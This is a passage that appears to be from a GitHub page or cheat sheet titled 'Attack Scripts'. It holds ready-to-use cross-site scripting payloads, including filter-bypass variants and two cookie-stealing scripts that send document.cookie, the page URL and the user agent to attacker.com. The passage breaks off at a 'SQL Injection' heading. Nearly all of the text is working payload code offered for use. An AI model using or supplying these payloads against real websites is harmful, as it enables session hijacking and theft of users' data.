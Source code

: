 ## 🚨 Attack Scripts

### **XSS (Cross-Site Scripting)**

#### **Basic XSS Payloads**
```html
<!-- Simple Alert -->
<script>alert('XSS')</script>

<!-- Event Handler -->
<img src=x onerror=alert('XSS')>

<!-- JavaScript URL -->
javascript:alert('XSS')
```

#### **Advanced XSS Techniques**
```html
<!-- DOM-based XSS -->
<script>
document.write('<img src=x onerror=alert("XSS")>');
eval('alert("XSS")');
</script>

<!-- Filter Bypass -->
<ScRiPt>alert('XSS')</ScRiPt>
<script>alert(String.fromCharCode(88,83,83))</script>
```

#### **Cookie Stealing**
```html
<!-- Basic Cookie Theft -->
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie
</script>

<!-- Advanced Exfiltration -->
<script>
fetch('http://attacker.com/steal.php', {
    method: 'POST',
    body: JSON.stringify({
        cookies: document.cookie,
        url: window.location.href,
        userAgent: navigator.userAgent
    })
});
</script>
```

### **SQL Injection**
